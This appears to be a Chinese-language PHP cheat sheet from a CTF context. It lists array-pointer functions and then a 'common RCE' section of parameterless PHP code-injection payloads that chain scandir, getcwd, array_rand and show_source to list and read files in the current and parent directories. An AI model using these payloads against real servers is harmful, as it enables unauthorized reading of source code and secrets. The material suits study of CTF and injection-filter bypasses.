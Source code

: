 ```
array_flip()
交换数组中的键和值，成功时返回交换后的数组

array_rand() 
从数组中随机取出一个或多个单元
```

### 数组移动操作

```
each() 
返回数组中当前的键/值对并将数组指针向前移动一步

end() 
将数组的内部指针指向最后一个单元

next() 
将数组中的内部指针向前移动一位

prev() 
将数组中的内部指针倒回一位

reset()
将内部指针指向数组中的第一个元素，并输出
```

### 常用RCE

```
highlight_file(array_rand(array_flip(scandir(getcwd())))); //查看和读取当前目录文件

print_r(scandir(dirname(getcwd()))); //查看上一级目录的文件

print_r(scandir(next(scandir(getcwd()))));  //查看上一级目录的文件

show_source(array_rand(array_flip(scandir(dirname(chdir(dirname(getcwd()))))))); //读取上级目录文件

show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(getcwd())))))))))));//读取上级目录文件

show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion())))))))))))))));//读取上级目录文件
```

***
